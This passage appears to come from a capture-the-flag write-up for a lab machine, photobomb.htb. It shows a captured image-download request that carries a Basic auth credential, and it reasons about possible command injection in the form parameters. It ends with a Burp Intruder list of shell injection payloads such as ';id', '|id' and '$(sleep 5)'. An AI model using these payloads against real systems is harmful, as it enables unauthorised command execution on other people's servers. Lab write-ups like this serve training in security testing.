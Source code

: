 The following `HTTP` request is normal download request for an image.

## request
```http
POST /printer HTTP/1.1
Host: photobomb.htb
Content-Length: 77
Cache-Control: max-age=0
Authorization: Basic cEgwdDA6YjBNYiE=
Upgrade-Insecure-Requests: 1
Origin: http://photobomb.htb
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/104.0.5112.102 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Referer: http://photobomb.htb/printer
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Connection: close
Special-Dev: only4dev

photo=andrea-de-santis-uCFuP0Gc_MM-unsplash.jpg&filetype=jpg&dimensions=30x30
```

## response
```http
HTTP/1.1 200 OK
Server: nginx/1.18.0 (Ubuntu)
Date: Sat, 12 Nov 2022 11:00:49 GMT
Content-Type: image/jpeg
Content-Length: 1035
Connection: close
Content-Disposition: attachment; filename=andrea-de-santis-uCFuP0Gc_MM-unsplash_30x30.jpg
X-Content-Type-Options: nosniff

ÿØÿà
```

Analyzing the request and the behaviour of the application implies that the server is performing some kind of processing on the image the user wants to download. So it is worth a try to check for command injection vulnerabilities in the parameters which are submitted to the application by the user.

## checking for command injection
We are using the `burp intruder` to check if one of the following injections work.

```
bogus
;id
|id
`id`
$i()d
;$i()d
|$i()d
FAIL||;$i()d
&&id
&id
FAIL_INTENT|id
FAIL_INTENT||id
`sleep 5`
`sleep 10`
`id`
$(sleep 5)
```